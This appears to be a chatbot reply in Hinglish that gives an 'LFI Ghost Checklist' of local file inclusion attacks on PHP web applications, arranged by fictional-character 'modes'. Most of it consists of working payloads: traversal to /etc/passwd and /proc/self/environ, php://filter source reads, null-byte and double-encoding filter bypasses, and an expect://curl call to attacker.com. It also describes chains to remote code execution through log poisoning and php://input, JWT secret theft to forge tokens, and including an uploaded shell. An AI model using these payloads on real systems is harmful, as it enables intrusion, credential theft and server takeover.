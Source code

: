 Bhai tune god-level bola — sabhi **custom modes** ka fusion wala **LFI Ghost Checklist** aa gaya.  
Ye tera *personal hacking compass* hai — **Glitch** ki creativity, **Chishiya** ki logic, **Arisu** ka emotional flow, **Gojo** ka power, **Sunny** ka clarity aur **Kira** ka dark mindset sab mila ke.

---

# **LFI Ghost Checklist v1.0**  
*(aka “Kaunsi file kis mode me dekhni chahiye”)*

---

### **[1] Glitch Mode: Try Unusual, Unexpected Paths**
> Glitch sochta hai: "What if this is broken in a way devs didn’t expect?"

- `?file=.././.././.././etc/passwd`
- `?template=/proc/self/environ`
- `?path=php://filter/convert.base64-encode/resource=config.php`
- `%00` null byte test: `?file=../../../../etc/passwd%00.jpg`
- LFI → SSRF via wrappers: `expect://curl http://attacker.com`

**Test style:** Creativity-based fuzzing

---

### **[2] Chishiya Mode: Logic + Filters**
> Chishiya checks what filters are there — and how to break them.

- Does `file` param filter `.php`? → Use `file=../../secret/.htaccess`  
- Is there extension append? `file=../../passwd` → server adds `.php`  
  → Bypass via: `file=../../passwd%00`
- Bypass `str_replace()` filter? → double encoding:
  - `%252e%252e%252f`

**Test style:** Break sanitization with logic

---

### **[3] Arisu Mode: Human + Emotional Focus**
> Arisu asks: “Why was this feature added? Can human laziness cause a bug?”

- Preview URLs like: `preview.php?doc=terms.html`
- Internal templates: `?view=internal_template.txt`
- Does it auto-load filenames from user uploads?
- LFI via error logs, or debug logs? (`/var/log/nginx/access.log`)

**Test style:** Look for places where devs took shortcuts

---

### **[4] Gojo Mode: Power Flow Mapping**
> Gojo builds full-chain logic, not just file read.

- Check for:
  - LFI → Log Poisoning → RCE
  - LFI → Session Hijack → Admin Panel Access
  - LFI → Read JWT Secret → Sign your own token
- Look for `php://input`, inject PHP payload in POST body

**Test style:** Weaponize LFI into full kill-chain

---

### **[5] Sunny Mode: Clarity, Simplicity, Memory-Hack**
> Sunny says: “Don't remember everything. Remember patterns.”

#### **Sunny Shortcut:**
> **“F-P-E-V”**

- **F**ile param hai?
- **P**ath traversal chal raha?
- **E**rror mil raha? Stack trace, path?
- **V**alidation ho rahi ya nahi?

If 3/4 YES → **LFI chance high**

**Bonus mnemonic:**
> “php://filter = base64 telescope”  
See what backend sees, without RCE.

---

### **[6] Kira Mode: Dark-side Advantage**
> Kira says: “Turn every rejection into weapon.”

- Save all LFI payloads that gave weird error
- Retry 1 week later after update / new upload
- Clone same vulnerable logic for your private lab
- Use `Burp Logger` to fingerprint where errors came from

**Kira mindset:**  
> “Aaj nahi toh kal, tuh karke dikhaunga.”

---

## **Ghost Vault Tip:**  
Make a `.md` note with:

```
## LFI Payloads Tried
- Basic path: ../../../../etc/passwd
- Filter bypass: php://filter/...
- Wrapper exploit: expect://, data://
- Extension poison: %00
- Upload + Include idea: ../../uploads/shell.php

## Where?
- Target: xyz.com
- Param: ?file=
- Result: Error / Inclusion / Nothing

## Retry?
- After 2 weeks
- After version update
```

---

## Want This as a PDF or GitHub Readme?
Ya ek interactive form bana doon jisme tu LFI test cases log karein directly?

Agla version me:
> Ghost Checklist: **File Upload + LFI Fusion** banayein?

